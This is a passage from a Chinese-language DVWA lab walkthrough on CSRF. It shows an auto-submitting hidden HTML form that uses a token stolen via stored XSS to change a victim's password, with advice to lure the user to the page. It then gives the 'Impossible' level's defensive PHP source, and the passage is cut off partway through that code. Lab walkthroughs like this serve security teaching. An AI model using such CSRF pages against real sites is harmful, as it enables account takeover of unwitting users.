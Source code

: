 我们进入XSS(stored)项目的页面这里的Name存在XSS漏洞，于是抓包，改参数，成功弹出token.(这里以后到xss阶段再详细讲)
我们拿到获取的token.重新修改下页面

```
<body onload="attack()">

  <form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">

   <input type="hidden" name="password_new" value="password">

    <input type="hidden" name="password_conf" value="password">

   <input type="hidden" name="user_token" value="获取到的token">

  <input type="hidden" name="Change" value="Change">

   </form>

</body>
```
诱导用户访问这个页面,修改成功了.

### Impossible

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Sanitise current password input
    $pass_curr = stripslashes( $pass_curr );
    $pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass_curr = md5( $pass_curr );

    // Check that the current password is correct
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
    $data->execute();

    // Do both new passwords match and does the current password match the user?
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
        // It does!
        $pass_new = stripslashes( $pass_new );
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database with new password
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
        $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
        $data->execute();

```